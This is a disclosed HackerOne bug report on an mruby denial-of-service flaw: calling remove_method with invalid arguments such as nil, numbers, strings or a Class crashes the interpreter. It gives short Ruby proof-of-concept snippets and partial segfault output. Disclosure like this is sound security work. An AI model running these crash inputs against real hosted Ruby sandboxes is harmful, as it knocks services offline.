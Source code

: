 # SIGSEGV when invalid argument on remove_method

## Report Details
- **Report ID**: 181874
- **URL**: https://hackerone.com/reports/181874
- **State**: Closed
- **Severity**: high
- **Submitted**: 2016-11-13T05:35:56.082Z
- **Disclosed**: 2016-12-17T02:30:48.759Z

## Reporter
- **Username**: jpenalbae
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
There is an invalid memory read on mruby when calling to `remove_method` with invalid arguments which causes a SIGSEGV which leads into denial of service.

## Sample

The following code tries to remove a method using a `nil` as argument
```ruby
class Child
   remove_method nil
end
```

There are many other variants, such as using a float, an integer, a string, a Class, etc... Which obviously are non valid method symbols.
```ruby
class Child
   remove_method 1
   remove_method 2.123
   remove_method 'aaaa'
   remove_method Child
end
```

## Crash

Here we can see the crash (full crash output attached)
```
$ ruby bin/sandbox ../triage/uniq/min/segv/mrb_type > /tmp/full-crash.log
bin/sandbox:20: [BUG] Segmentation fault at 0x0000000000000e
ruby 2.3.1p112 (2016-04-26) [x86_64-linux-gnu]

-- Control frame information -----------------------------------------------
c:0003 p:---- s:0010 e:000009 CFUNC  :sandbox_eval
c:0002 p:0201 s:0005 E:001e48 EVAL   bin/sandbox:20 [FINISH]
c:0001 p:0000 s:0002 E:001e00 (none) [FINISH]

-- Ruby level backtrace information ----------------------------------------
bin/sandbox:20:in `<main>'
bin/sandbox:20:in `sandbox_eval'

-- Machine register context ------------------------------------------------
```